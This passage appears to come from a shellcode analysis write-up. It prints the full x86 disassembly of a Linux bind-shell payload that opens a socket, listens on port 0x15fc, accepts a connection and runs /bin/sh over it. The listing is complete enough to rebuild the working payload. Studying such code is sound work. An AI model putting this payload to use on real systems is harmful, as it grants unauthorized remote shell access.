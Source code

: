 This shellcode can be decoded using an [online disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly2)

````
0:  6a 66                   push   0x66
2:  6a 01                   push   0x1
4:  5b                      pop    ebx
5:  58                      pop    eax
6:  99                      cdq
7:  52                      push   edx
8:  6a 01                   push   0x1
a:  6a 02                   push   0x2
c:  89 e1                   mov    ecx,esp
e:  cd 80                   int    0x80
10: 89 c6                   mov    esi,eax
12: 6a 66                   push   0x66
14: 58                      pop    eax
15: 43                      inc    ebx
16: 52                      push   edx
17: 66 68 fc 15             pushw  0x15fc
1b: 66 53                   push   bx
1d: 89 e1                   mov    ecx,esp
1f: 6a 10                   push   0x10
21: 51                      push   ecx
22: 56                      push   esi
23: 89 e1                   mov    ecx,esp
25: cd 80                   int    0x80
27: 6a 66                   push   0x66
29: 58                      pop    eax
2a: 43                      inc    ebx
2b: 43                      inc    ebx
2c: 6a 05                   push   0x5
2e: 56                      push   esi
2f: cd 80                   int    0x80
31: 6a 66                   push   0x66
33: 58                      pop    eax
34: 43                      inc    ebx
35: 52                      push   edx
36: 52                      push   edx
37: 56                      push   esi
38: 89 e1                   mov    ecx,esp
3a: cd 80                   int    0x80
3c: 89 c3                   mov    ebx,eax
3e: 6a 3f                   push   0x3f
40: 58                      pop    eax
41: 31 c9                   xor    ecx,ecx
43: cd 80                   int    0x80
45: 6a 3f                   push   0x3f
47: 58                      pop    eax
48: 41                      inc    ecx
49: cd 80                   int    0x80
4b: 31 c0                   xor    eax,eax
4d: 50                      push   eax
4e: 68 2f 2f 73 68          push   0x68732f2f
53: 68 2f 62 69 6e          push   0x6e69622f
58: 89 e3                   mov    ebx,esp
5a: 99                      cdq
5b: 50                      push   eax
5c: b0 0b                   mov    al,0xb
5e: 59                      pop    ecx
5f: cd 80                   int    0x80
````
``Original shellcode disassembled``
